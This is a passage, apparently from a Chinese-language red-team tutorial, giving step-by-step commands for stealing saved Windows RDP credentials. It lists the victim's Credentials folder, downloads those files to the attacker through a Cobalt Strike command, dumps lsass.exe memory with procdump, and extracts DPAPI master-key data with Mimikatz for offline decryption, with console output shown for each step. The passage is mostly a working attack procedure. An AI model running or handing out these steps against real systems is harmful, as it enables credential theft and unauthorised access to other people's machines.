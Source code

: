 将目标主机上存在连接凭证的 RDP 会话文件，下载到攻击者本地环境再进行离线解密：

```console
C:\Windows\System32> dir /a /q %userprofile%\AppData\Local\Microsoft\Credentials\
 驱动器 C 中的卷没有标签。
 卷的序列号是 E8C4-028B

 C:\Users\test\AppData\Local\Microsoft\Credentials 的目录

2023/11/24  15:30    <DIR>          DESKTOP-TEST\test   .
2023/11/24  15:30    <DIR>          DESKTOP-TEST\test   ..
2023/11/24  15:30               482 DESKTOP-TEST\test   84BD531FDD20A7ED510558FA8768BA20
2023/10/24  00:23            11,106 DESKTOP-TEST\test   DFBE70A7E5CC19A398EBF1B96859CE5D
               2 个文件         11,588 字节
               2 个目录 33,538,547,712 可用字节

```

> 注 - CS 下载文件命令：`download %userprofile%\AppData\Local\Microsoft\Credentials\*`

使用 [procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump) 转储 lsass.exe 进程：

```console
PS C:\Windows\System32> .\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:32:56] Dump 1 initiated: C:\Windows\System32\lsass.dmp
[15:32:56] Dump 1 writing: Estimated dump file size is 75 MB.
[15:32:56] Dump 1 complete: 75 MB written in 0.2 seconds
[15:32:57] Dump count reached.

```

使用 Mimikatz 从指定的 RDP 会话文件中，获取到 guidMasterKey 值：

```console
mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      :


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
```
